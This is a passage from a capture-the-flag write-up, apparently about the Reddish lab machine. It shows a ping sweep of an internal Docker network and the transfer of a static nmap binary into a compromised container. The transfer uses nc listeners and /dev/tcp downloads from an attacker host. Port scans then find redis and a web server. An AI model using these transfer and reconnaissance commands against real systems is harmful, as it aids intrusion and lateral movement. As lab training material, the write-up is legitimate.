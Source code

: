 ```bash
for i in $(seq 254); do ping 172.19.0.$i -c1 -W1 & done | grep from

64 bytes from 172.19.0.3: icmp_seq=1 ttl=64 time=0.017 ms
64 bytes from 172.19.0.4: icmp_seq=1 ttl=64 time=0.061 ms
64 bytes from 172.19.0.2: icmp_seq=1 ttl=64 time=0.062 ms
64 bytes from 172.19.0.1: icmp_seq=1 ttl=64 time=0.039 ms

```

Again, the .1 is not probably the docker bridge, .3 is ourself. Let’s scan the .2 and .4 network. We can upload a static nmap binary to our host:

```bash
#attack host
nc -lnvp 8001 -q0 < nmap

cd ~/tools/nmap/x86/data
nc -lnvp 8001 -q0 < nmap-services

#target
cat < /dev/tcp/10.10.16.4/8001 > nmap
cat < /dev/tcp/10.10.16.4/8001 > /etc/services
```

Now let’s scan for open ports:

```bash
chmod +x nmap 

./nmap 172.19.0.2 -Pn -p- --min-rate=10000

PORT     STATE SERVICE
6379/tcp open  redis
MAC Address: 02:42:AC:13:00:02 (Unknown)
```

![image.png]({{ site.baseurl }}/assets/reddish/image%2012.png)

It’s a database.

The next IP:

```bash
./nmap 172.19.0.4

 PORT   STATE SERVICE
80/tcp open  http
MAC Address: 02:42:AC:13:00:04 (Unknown)
```

Or if we want to scan all the ports:

```bash
./nmap 172.19.0.4 -Pn -p- --min-rate=10000
```

